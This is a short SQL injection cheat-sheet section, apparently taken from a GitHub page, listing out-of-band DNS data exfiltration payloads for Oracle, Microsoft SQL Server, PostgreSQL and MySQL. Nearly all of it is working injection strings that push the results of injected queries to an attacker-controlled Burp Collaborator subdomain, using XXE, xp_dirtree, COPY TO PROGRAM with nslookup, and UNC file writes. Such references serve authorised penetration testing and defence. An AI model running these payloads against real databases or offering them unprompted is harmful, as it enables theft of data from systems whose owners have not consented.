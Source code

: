 ## DNS lookup with data exfiltration

Cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, it is necessary use Burp Collaborator cliend to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

| Database type      | Query                                                                                                                                 |
| ------------------ |---------------------------------------------------------------------------------------------------------------------------------------|
| Oracle             | ``` SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual ```                                                             |
| Microsoft          | ``` declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a"') ```                                                                                                                                                          |
| PostgreSQL         | ``` create OR replace function f() returns void as $$ ```                                                                             |
|                    |``` declare c text; ```                                                                                                                |
|                    |``` declare p text; ```                                                                                                                |
|                    |``` begin ```                                                                                                                          |
|                    |``` SELECT into p (SELECT YOUR-QUERY-HERE); ```                                                                                        |
|                    |``` c := 'copy (SELECT '''') to program ''nslookup '||p||'.YOUR-SUBDOMAIN-HERE.burpcollaborator.net'''; ```                            |
|                    |``` execute c; ```                                                                                                                     |
|                    |``` END; ```                                                                                                                           |
|                    |``` $$ language plpgsql security definer; ```                                                                                          |
|                    |``` SELECT f(); ```                                                                                                                    |
| MySQL              | The following technique works on Windows only: ``` SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\a' ```                                                                                                                                                          |